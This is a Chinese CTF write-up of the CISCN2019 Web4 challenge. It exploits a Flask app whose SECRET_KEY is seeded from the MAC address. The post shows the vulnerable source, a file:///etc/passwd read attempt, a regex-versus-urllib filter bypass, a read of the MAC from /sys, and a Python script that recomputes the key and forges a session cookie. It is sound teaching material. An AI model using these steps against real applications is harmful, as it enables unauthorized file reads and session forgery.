

---
date: 2026-11-01 15:20:00
slug: ciscn2019-web4-flask-seed
categories:
  - Python
  - Flask
  - 弱随机
---

# [CISCN2019 华东南赛区] Web4 — 从 MAC 地址推回 SECRET_KEY

> **题目类型**：Web — Flask 源码泄露 + 伪随机数预测 + session 伪造
>
> **题目地址**：BUUCTF / ctf2 复刻环境
>
> **Flag**：`CTF2{b5ab3e88-9e2a-4217-ba5f-b92ba1c7c4ff}`

---

## 题目概述

进入页面只有一份跳转页，点击后自动跳到百度。

**`/read?url=` 能读 URL 指向的东西，但 `file://` 被过滤了，返回 `No Hack`。**

**这题真正要做的不是"绕过过滤器读文件"，而是：读出源码 → 从源码里发现 `SECRET_KEY` 是**用 MAC 地址当种子生成的伪随机数** → 读出 MAC → 本地算出密钥 → 伪造 session → 访问 `/flag`。**

---

## 解题过程

### Step 1：先试能不能读文件

```text
/read?url=file:///etc/passwd   →  No Hack
```

**说明它拦了 `file`。**先别急着绕，把这题的源码拿到手更值。

### Step 2：我一开始以为是 JWT（错了）

**看到 session cookie 是三段、点分隔，我第一反应是「这是 JWT」。**

**这个判断是错的，而且会把人带偏——因为伪造 JWT 和伪造 Flask session 用的工具完全不同。**

**正确的判断方法：把第一段 base64 解开看是什么。**

```text
Flask session 的第一段   →  直接是 {"username": ...} 这样的 JSON 数据
JWT 的第一段             →  是 {"alg":"HS256","typ":"JWT"} 这样的 header
```

**Flask session 用的是 `itsdangerous`：`base64(数据).时间戳.HMAC-SHA1签名`，密钥就是 `SECRET_KEY`。长得像 JWT，但完全是两套东西。**

### Step 3：拿到源码



```python
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())                          # ← 关键
app.config['SECRET_KEY'] = str(random.random()*233)  # ← 关键
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! Read somethings'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
        return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'
```


**看到两行就够了：**

```python
random.seed(uuid.getnode())                          # 种子是 MAC 地址
app.config['SECRET_KEY'] = str(random.random()*233)  # 密钥由种子推出来
```

**伪随机数的致命点：**种子固定 → 序列固定 → 结果可复现。**所以只要知道 MAC，密钥就能算出来。**

### Step 4：`file` 是怎么绕过的

**过滤是这一行：**

```python
m = re.findall('^file.*', url, re.IGNORECASE)
```

**注意 `^` —— 它锚定字符串的开头。所以它拦的是"**以 file 开头**的字符串"，不是"含 file 的字符串"。**

**而 `urllib.urlopen()` 在真正解析之前会先 `unwrap()`，那个函数里有 `strip()`——把**首尾空白**去掉，还会剥掉外面包的 `<>`。**

```text
正则看到的：  原始字符串（不以 file 开头 → 不拦）
urllib 看到的：strip 之后的字符串（以 file 开头 → 正常按文件读）
```

**两个组件对同一份输入的处理不一致，绕过点就在这里。**

**另外还要注意 `n = re.findall('flag', url)`：URL 里任何位置出现 `flag` 都不行，所以读 MAC 只能用 `/sys/class/net/eth0/address` 这种路径。**

### Step 5：读 MAC 地址

```text
/sys/class/net/eth0/address   →  16:49:e9:36:04:ea（举例）
```

**`uuid.getnode()` 返回的就是这块网卡的 MAC，转成整数。**

### Step 6：本地算 SECRET_KEY

**公式：**

```python
import random
random.seed(int('1649e93604ea', 16))
app.config['SECRET_KEY'] = str(random.random() * 233)
```

**⚠️ 这里有个大坑：必须按 **Python 2** 的 `str()` 行为算。**


```text
random()*233 的完整浮点 :  34.58290138764246

Python 3 的 str()       :  34.58290138764246     ← 17 位
Python 2 的 str()       :  34.5829013876         ← 12 位（%.12g）
```

**Python 2 的 `str(float)` 等价于 `%.12g`，只保留 12 位有效数字。这题跑在 Python 2.7（`print str(ex)` 那个写法就是标志），所以密钥是**短的那个**。**

**用 Python 3 的 `str()` 算出来去签名，会一直验不过——而且报错只说"签名不匹配"，不会告诉你差在六个字符上。**

**在 Python 3 里复现 Python 2 的写法：**

```python
key = '%.12g' % (random.random() * 233)      # → '34.5829013876'
```

### Step 7：伪造 session

**flask-unsign 有两个坑，我都踩了：**

**① 模块名是下划线**

```text
python -m flask_unsign     ✓
python -m flask-unsign     ✗ No module named flask-unsign
```

**② 它会把密钥当 Python 字面量解析**

```text
--secret '34.5829013876'   →  literal_eval → 浮点数
                              → 报 "Secret must be a string-type"
```

**加 `--no-literal-eval` 能解决这个——**但它同时对 `--cookie` 生效**，于是 `{"username":"fuck"}` 被当成一个**字符串**塞进 JSON。**

**结果就是 Flask 拿到的是一个字符串而不是 dict：**

```text
ValueError: dictionary update sequence element #0 has length 1; 2 is required
```

**这个报错其实是**好消息**——它说明签名验过了（签名错的话 Flask 会静默给你空 session），只是 payload 形状不对。**

**最后改成直接用 Flask 自己的签名器，避开命令行参数的口径问题：**

```python
from flask.sessions import SecureCookieSessionInterface

class FakeApp:
    def __init__(self, key):
        self.secret_key = key
        self.config = {"SECRET_KEY_FALLBACKS": None}   # Flask 3 会读这个

si = SecureCookieSessionInterface()
signer = si.get_signing_serializer(FakeApp("34.5829013876"))
print(signer.dumps({"username": "fuck"}))
```

**这样序列化格式（TaggedJSON + 必要时 zlib 压缩）跟目标一定对得上。**

### Step 8：拿 flag

**把签好的 cookie 设成 `session`，访问 `/flag`。**

```text
CTF2{b5ab3e88-9e2a-4217-ba5f-b92ba1c7c4ff}
```

---

## 解题思路总结

```text
跳转页 → /read?url= 能读东西，但 file:// 被拦（No Hack）
  → 绕过过滤器读源码（正则锚定开头 + urllib 会 strip，两边不一致）
    → 源码里发现 random.seed(uuid.getnode())
      → SECRET_KEY = str(random.random()*233)
        → 读 /sys/class/net/eth0/address 拿 MAC
          → 本地按 Python 2 的 str() 语义算出密钥
            → Flask 签名器签 {"username":"fuck"}
              → 访问 /flag
```

### 漏洞原理

**① 伪随机数用"可预测的东西"当种子，等于没随机**

`random.seed(uuid.getnode())` —— 种子是 MAC 地址。MAC 不是秘密，读得到。**知道种子就等于知道全部输出。**这就是为什么密钥生成不能用 `random`，得用 `os.urandom` / `secrets`。

**② 过滤器与解析器对同一份输入处理不一致**

正则看原始字符串（`^file` 要求开头就是 file），`urllib` 看 `strip()` 之后的字符串。**这个差值就是绕过空间，和 SQL 注入里"过滤器和数据库对同一串的理解不同"是同一类问题。**

**③ 语言版本差异会改变输出的字符串**

`str(float)` 在 Python 2 和 3 里给的东西不一样。**跨语言/跨版本复现逻辑时，这类差异最难查，因为逻辑完全正确，只有格式不同。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| Flask session ≠ JWT | 第一段解出 JSON 数据的是 Flask session；解出 `{"alg":...}` 的才是 JWT |
| `itsdangerous` | Flask session 的签名库，HMAC-SHA1 + `SECRET_KEY` |
| `random.seed(int)` | 种子相同则序列相同，可完全复现 |
| `uuid.getnode()` | 返回网卡 MAC 的整数值 |
| `str(float)` 版本差异 | Python 2 ≈ `%.12g`（12 位有效数字），Python 3 是 17 位 |
| `re.findall('^file.*', url)` | `^` 锚定开头，只拦"以 file 开头" |
| `urllib.unwrap()` | 内部会 `strip()` 首尾空白、剥掉 `<>` |
| `flask-unsign` 的 literal_eval | 会把看起来像数字的密钥当浮点；`--no-literal-eval` 是全局开关 |
| `ValueError: dictionary update...` | 出现在 session 解签成功但 payload 不是 dict 时——**说明密钥对了** |
| `SecureCookieSessionInterface` | 直接用它签名，格式一定跟 Flask 一致 |

---

??? note "完整源码（截图整理，压缩成可读格式）"

    ```python
    # encoding:utf-8
    import re, random, uuid, urllib
    from flask import Flask, session, request

    app = Flask(__name__)
    random.seed(uuid.getnode())
    app.config['SECRET_KEY'] = str(random.random()*233)
    app.debug = True

    @app.route('/')
    def index():
        session['username'] = 'www-data'
        return 'Hello World! Read somethings'

    @app.route('/read')
    def read():
        try:
            url = request.args.get('url')
            m = re.findall('^file.*', url, re.IGNORECASE)
            n = re.findall('flag', url, re.IGNORECASE)
            if m or n:
                return 'No Hack'
            res = urllib.urlopen(url)
            return res.read()
        except Exception as ex:
            print str(ex)
            return 'no response'

    @app.route('/flag')
    def flag():
        if session and session['username'] == 'fuck':
            return open('/flag.txt').read()
        else:
            return 'Access denied'

    if __name__=='__main__':
        app.run(debug=True, host="0.0.0.0")
    ```

??? note "本地脚本：算密钥 + 签 session"

    ```python
    # 1) 算密钥（Python 3 里复现 Python 2 的行为）
    import random
    mac = '16:49:e9:36:04:ea'
    random.seed(int(mac.replace(':', ''), 16))
    key = '%.12g' % (random.random() * 233)      # '34.5829013876'

    # 2) 签 session（用 Flask 自己的签名器）
    from flask.sessions import SecureCookieSessionInterface

    class FakeApp:
        def __init__(self, k):
            self.secret_key = k
            self.config = {"SECRET_KEY_FALLBACKS": None}

    si = SecureCookieSessionInterface()
    signer = si.get_signing_serializer(FakeApp(key))
    cookie = signer.dumps({"username": "fuck"})
    print(cookie)
    ```
